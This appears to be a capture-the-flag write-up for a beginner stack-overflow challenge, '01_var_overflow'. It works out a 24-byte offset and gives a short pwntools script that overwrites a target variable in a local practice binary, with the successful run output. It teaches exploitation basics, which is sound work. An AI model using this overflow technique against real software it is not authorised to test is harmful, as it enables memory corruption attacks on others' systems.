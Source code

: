 # 01_var_overflow Writeup

## Steps:
1. Run chall and notice input starts writing at the first memory address displayed
```
$ ./chall                

Your goal is to modify the variable @ 0x7fff46ec69e8

0x7fff46ec69d0: 0x0000000000000000 0x0000000000000000 
0x7fff46ec69e0: 0xffffffffffffffff 0x00000000deadbeef 

Enter input: AAAA

0x7fff46ec69d0: 0x0000000a41414141 0x0000000000000000 
0x7fff46ec69e0: 0xffffffffffffffff 0x00000000deadbeef 

You failed to modify the target variable...
Maybe you didn't supply enough input? Try again!
```

2. Determine the distance to the target variable ~ 3 sets of 8 bytes = `24` bytes
3. Create the payload ~ 24 bytes of garbage to reach target variable
```
from pwn import *

target = process("./chall")

payload = b"A"*24

target.sendline(payload)

s = target.recvall().decode()
print(s)
```

## Solution:
```
$ python3 exploit.py  
[+] Starting local process './chall': pid 139487
[+] Receiving all data: Done (426B)
[*] Process './chall' stopped with exit code 0 (pid 139487)

Your goal is to modify the variable @ 0x7ffc4147fcb8

0x7ffc4147fca0: 0x0000000000000000 0x0000000000000000 
0x7ffc4147fcb0: 0xffffffffffffffff 0x00000000deadbeef 

Enter input: 
0x7ffc4147fca0: 0x4141414141414141 0x4141414141414141 
0x7ffc4147fcb0: 0x4141414141414141 0x00000000dead000a 

Congrats! You modified the target variable!
```
